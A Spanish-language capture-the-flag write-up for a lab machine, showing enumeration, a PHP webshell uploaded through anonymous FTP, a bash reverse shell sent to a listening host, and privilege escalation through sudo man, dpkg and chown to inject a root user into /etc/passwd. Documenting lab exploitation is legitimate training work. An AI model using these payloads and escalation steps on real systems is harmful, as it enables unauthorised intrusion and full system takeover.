

❄️ Máquina: Anonymouspingu
üìÖ Publicado el 13/09/2025 | Categor√≠a: LINUX
üìù Descripci√≥n
Enumeración inicial con FTP anónimo y servidor web, explotación mediante subida de webshell y ejecución remota de comandos,
escalada de privilegios en cadena a través de usuarios (www-data → pingu → gladys)
y abuso de sudo chown para modificar /etc/passwd, logrando finalmente acceso root. root.
üîç Reconocimiento
sudo nmap -p- -open -O -sS -sCV -min-rate 5000 -n -Pn 172.17.0.2
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:172.17.0.1
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 4
| vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r-- 1 0 0 7816 Nov 25 2019 about.html
| -rw-r--r-- 1 0 0 8102 Nov 25 2019 contact.html
| drwxr-xr-x 2 0 0 4096 Jan 01 1970 css
| drwxr-xr-x 2 0 0 4096 Apr 28 2024 heustonn-html
| drwxr-xr-x 2 0 0 4096 Oct 23 2019 images
| -rw-r--r-- 1 0 0 20162 Apr 28 2024 index.html
| drwxr-xr-x 2 0 0 4096 Oct 23 2019 js
| -rw-r--r-- 1 0 0 9808 Nov 25 2019 service.html
|_drwxrwxrwx 1 33 33 4096 Apr 28 2024 upload [NSE: writeable]
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Mantenimiento
üåê Enumeraci√≥n Web
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
/index.html (Status: 200) [Size: 20162]
/images (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/about.html (Status: 200) [Size: 7816]
/contact.html (Status: 200) [Size: 8102]
/upload (Status: 301) [Size: 309] [--> http://172.17.0.2/upload/]
/service.html (Status: 200) [Size: 9808]
/css (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
/js (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
El directorio /upload.php nos importa.
entramos a ftp con ftp 172.17.0.2 como usuario Anonymous
#es
echo '< system($_GET["cmd"]); ?>' > shell.php
#subimos Shell.php a upload
ftp> put shell.php
Y nos dirigimos hacia los subido:
Ahora creamos una reser shell
nos ponemos a la escucha del puerto
nc -lvnp 4444
y en el directorio lanzamos la shell:
http://172.17.0.2/upload/shell.php?cmd=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.14/4444+0>%261'
Con esto entramos al ssh con el usuario www-data
üëë Escalada a root
Si hacemos sudo -l vemos que podemos ejecutar man como el usuario pingu. Podemos abusar de este para migrar a ese user.
sudo -l
User www-data may run the following commands on 13d79de146ba:
(pingu) NOPASSWD: /usr/bin/man
#migramos al usario pingu
sudo -u pingu /usr/bin/man man
!/bin/bash
Hacemos otra vez un sudo -l .
sudo -l
User pingu may run the following commands on 4af23574d013:
(gladys) NOPASSWD: /usr/bin/nmap
(gladys) NOPASSWD: /usr/bin/dpkg
Aprovechamos que podemos ejecutar dpkg como gladys
sudo -u gladys /usr/bin/dpkg -l
!/bin/bash
Migramos al user gladys. Hacemos otra vez sudo -l:
sudo -l
User gladys may run the following commands on 4af23574d013:
(root) NOPASSWD: /usr/bin/chown
Esto significa que gladys puede cambiar el propietario (chown) de cualquier archivo.
LFILE=/etc/passwd
#cambio de propietario
sudo chown $(id -un):$(id -gn) $LFILE
ls -l /etc/passwd
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
Inyección de nuevo usuario root:
openssl passwd hola123
echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
su newroot
whoami
root
üèÅ Resultado
Acceso total a la máquina con privilegios de root